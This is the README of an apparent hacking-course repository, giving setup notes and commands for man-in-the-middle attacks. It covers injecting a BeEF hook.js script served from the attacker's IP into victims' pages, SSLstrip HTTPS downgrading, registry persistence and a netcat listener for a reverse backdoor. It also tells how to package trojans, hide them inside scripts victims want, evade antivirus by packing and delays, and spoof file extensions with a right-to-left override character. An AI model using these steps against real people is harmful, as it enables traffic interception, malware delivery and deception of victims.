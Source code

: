 # Ethical Hacking Course
Repository for all the code related to Learn Python &amp; "Ethical Hacking From Scratch" course.  
All the work is done on Kali Linux, using both Python 2.7 and 3.x version.

## Requirements
Besides the needed libraries stated in *requirements.txt* file, BeEF framework for Kali Linux is required. Install it with the following command:  
`sudo apt-get install beef-xss`

If SSLstrip is not provided with your distribution of Kali Linux virtual machine, install it from the original source: [moxie0/sslstrip](https://github.com/moxie0/sslstrip "A tool for exploiting Moxie Marlinspike's SSL \"stripping\" attack.").

## Guidelines

### Operating system

#### Kali Linux
To enable **IP forwarding**, enter the following command into the terminal:  
`echo 1 > /proc/sys/net/ipv4/ip_forward`

To create **net filter queue** (*iptables*), enter the following command:  
`iptables -I FORWARD -j NFQUEUE --queue-num <number>`,  
where the default `<number>` is `0`.

For local testing, use both `INPUT` and `OUTPUT` chain.

To enable a basic HTTP server, type:  
`sudo service apache2 start`

#### Windows
To add an executable to Windows Registry to make the file run on the system start, the following command can be used:  
`reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v <name_of_reg> /t REG_SZ /d <"path_to_exe">`  

### Python
You can terminate all running python programs by typing `killall python` in the terminal.  

On Windows, while having both Python 2 and 3 installed, we can force to run either version by running:  
`py -<version> <name_of_script_file>`  
where `<version>` can be '2' or '3'.

### BeEF
The code we want to inject into our victim is:  
`<script src="http://<IP>:3000/hook.js"></script`,  
where `<IP>` is the IP of your host server containing *hook.js*.

If you are using a HTTP server, make sure insert the code snippet above
into */var/www/html/index.html*.

### SSLstrip
To use SSLstrip, use the following command to enable it in *iptables*:  
`iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000`

This makes so that all traffic coming to port 80, which is the default port of HTTP websites,
will instead be redirected to port 10000, which is the port the SSLstrip tool uses.

In order to use packet-modifying tools together with SSLstrip, they must be configured to watch
for port 10000 instead of 80 and commands below need to be entered into Linux shell:

`iptables -I INPUT -j NFQUEUE --queue-num <number>`  
`iptables -I OUTPUT -j NFQUEUE --queue-num <number>`

### Executable files

#### Converting scripts into executables
It's important to note we focus on creating Windows executables, since for both Linux and macOS,
the problem becomes trivial, since both operating systems have Python installed by default,
therefore allowing us to directly run Python scripts.
Another problem is that on Linux, obfuscating such executable file is almost impossible - the user has to grant
"executable" permissions through chmod anyway, meaning user must be pretty techie already.
The good way to send a trojan would be to just send a Python script that the user wants,
with our malicious software at the top of it. The user *still* could just check our source code though.
On macOS however, it's easier to deal with concealing the file since there are no file extensions displayed.  
Despite all those differences between systems, pyinstaller should work on each one of them anyway.
##### On Windows
In order to package Python scripts into executable files, you need to have "pyinstaller" installed
 and you have to run the following command:  
`pyinstaller <script_name.py> --onefile --noconsole`  
* You might need to use a path to pyinstaller instead, if it's not added to PATH.  
* `--onefile` argument ensures all the required libraries and files are put into **single** executable.  
* `--noconsole` argument disables console, so when we run the program, no terminal shows up. Please note that some
Python scripts may require "stdin", "stdout" and "stderr" to be handled properly (it is handled in our program).  
* The created executable can be found in the "dist" folder.  
* To package multiple files together with the Python script (used for creating trojans), use:  
`--add-data "abs/path/to/file;."`  
This is **especially useful** when creating trojans.
The dot means the file will be stored (after running) in a default temp directory.
Can be changed to directory of preference.  

##### On Linux
If you need to create .exe file from a Linux machine (not recommended - it's better to do it natively),
you need a Python interpreter in it's Windows version. In order to do that, Wine is required
(should be installed by default on Kali Linux).  
After you've got both Python downloaded and Wine installed, type in the following command:  
`wine msiexec /i <python_installer_file>`  
* `msiexec` argument states that we are using a .msi file.  
* `/i` flag means that we want to install said file.  

After the Python installation has been completed, you can now run the interpreter in Windows version using:  
`wine python.exe -m pip install <library>` while in in `.wine/drive_c` and using `pyinstaller` as `<library>`.  
Just like on Windows, the pyinstaller can be found in `drive_c/PythonXX/Scripts` folder.  
Keep in mind that you need to have installed all the libraries your Python scripts use before you can package them.  
Similarly to Windows, in order to package the scripts, the following command needs to be typed in:  
`wine .wine/drive_c/PythonXX/Scripts/pyinstaller.exe <script_name.py> --onefile --noconsole`  
As you can see, this time we do type the whole path to `pyinstaller.exe`.  
<*I'm not sure if it's needed to, perhaps Wine can also simulate adding exe files to PATH.*>  
If you have multiple Python files used in your program, just remember to package the **main** file.
Pyinstaller will include imported libraries and files accordingly.  

#### Avoiding executables detection
To avoid detection of your .exe files by an Antivirus software, it's recommended to:  
* Use unique source code that possibly might not be yet indexed as malicious.  
* Use a behavior that will trick AV emulation of your code (i.e useless memory allocation, time delay)  

To check whether or not your program is detectable by antiviruses,
you can use services like [NoDistribute](https://nodistribute.com/ "Online virus scanner without results distribution.")
(doesn't share results with AVs' companies)
or [VirusTotal](https://www.virustotal.com/) (shares the results, thus contributing to better IT security).  
Additionally, you can compress your executables to make it even more obfuscated to antiviruses.
Use [UPX](https://github.com/upx/upx "UPX - The Ultimate Packer for eXecutables") for that purpose.  

In order to further our hiding measures, it's recommended to change the icon of our file.
Use [Iconfinder](https://www.iconfinder.com/) to find such icons
and [Easyicon](https://www.easyicon.net/language.en/covert/) to convert them appropriately.
Next, while using pyinstaller, make sure to add `--icon path\to\icon.ico` argument to package .exe with the given icon.  

Last but not least, spoofing the file extension. The trick is based on the character called "Right-to-left Override",
which changes the text orientation to start from right
(this functionality is used by few languages like Hebrew or Arabic).
You can find this character in Characters app on Kali Linux.
This trick can be used like this:  
```text
research-on-human-reflexes.exe
research-on-human-refl‮fdp.exe
```
Remember that such file needs to be compressed into a .zip file or similar,
since direct download will cause this character to be removed in the process.  

## Tips & Tricks
* It seems that *netfilterqueue* does not work on Python 3.x.  
* To listen to incoming connections without using custom listener for reverse_backdoor.py,
you can use `nc -vv -l -p <port_number>`.  
* You can find registries associated with running programs on system startup in:  
`Computer\HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run`.  



